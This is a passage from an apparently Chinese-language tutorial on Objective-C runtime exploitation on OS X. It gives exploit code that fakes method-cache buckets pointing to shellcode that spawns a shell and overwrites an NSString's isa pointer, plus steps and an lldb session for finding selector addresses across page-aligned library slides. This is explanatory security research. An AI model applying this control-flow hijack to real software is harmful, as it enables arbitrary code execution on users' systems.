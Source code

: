 ```
    printf("[+] Setting up shellcode\n");

    struct cacheentry *buckets = malloc((NUMBUCKETS+1) * sizeof(struct cacheentry));
    if(!buckets) {
        printf("[!] allocation failed.\n");
        exit(1);
    }
    for(slide = 0; slide <= NUMBUCKETS ; slide++) {
        buckets[slide].sel = BASESEL + (slide * 0x1000);
        buckets[slide].rip = (long)pshellcode;
    }
    printf("[+] Setting up buckets\n");

    NSString *l = [[NSString alloc] initWithUTF8String:"hello world"];


    memset(&fc,'\xcc',sizeof(fc));
    fc.mask = MASK; // mask
    fc.bucketptr = (unsigned long)buckets;
    printf("[+] Setting up fc\n");

    printf("[+] fc @ 0x%lx\n",(unsigned long)&fc);
    printf("[+] Class @ 0x%lx\n",(unsigned long)l);
    printf("[+] Buckets @ 0x%lx\n",(unsigned long)buckets);
    printf("[+] String length: 0x%x\n",(unsigned int)[l length]);

    sprintf(num,"%li",(long)l);
    long *ptr = (long *)atol(num);
    *ptr = (long)&fc; // isa ptr
    printf("[+] Overwriting object\n");

    printf("[+] Calling method\n");
    printf("String length: 0x%x\n",(unsigned int)[l length]);
    return 0;
}

```

具体步骤说明：

*   先申请一块可以执行的内存来存放shellcode。该shellcode功能是起一个sh。
*   在申请一块内存在构建bucket块。NUMBUCKETS的大小设置可以修改，合适就好。
*   开始构建虚假的bucket块。一共构建了NUMBUCKETS+1个。

每个bucket的rip(即imp)都指向shellcode的地址。

bucket的sel就是对应的length方法的选择子地址，也就是字符串的地址。这个就涉及到了OS X系统共享区域(Shared Region)的动态库dylib加载空间问题了。在64bit OS X系统里面共享区域开始于地址0x7FFF80000000。动态库加载地址会随机加上一个偏移。但是偏移都是以内存页为单位的，一个页的大小是0x1000。

通过在一个正常程序NSString类的length方法上下了断点，执行程序断在此处查看调用时的第二个参数rsi寄存器的值，我们就能得到这个length的地址

```
Process 5001 stopped
* thread #1: tid = 0x54aeb, 0x00007fff927cf1d0 CoreFoundation`-[__NSCFString length], queue = 'com.apple.main-thread', stop reason = breakpoint 1.32
    frame #0: 0x00007fff927cf1d0 CoreFoundation`-[__NSCFString length]
CoreFoundation`-[__NSCFString length]:
->  0x7fff927cf1d0 <+0>: pushq  %rbp
    0x7fff927cf1d1 <+1>: movq   %rsp, %rbp
    0x7fff927cf1d4 <+4>: popq   %rbp
    0x7fff927cf1d5 <+5>: jmp    0x7fff927cdcd0            ; _CFStringGetLength2
(lldb) re r rsi
     rsi = 0x00007fff907bb509
(lldb) x 0x00007fff907bb509
0x7fff907bb509: 6c 65 6e 67 74 68 00 69 73 54 79 70 65 4e 6f 74  length.isTypeNot
0x7fff907bb519: 45 78 63 6c 75 73 69 76 65 3a 00 61 70 70 65 6e  Exclusive:.appen
```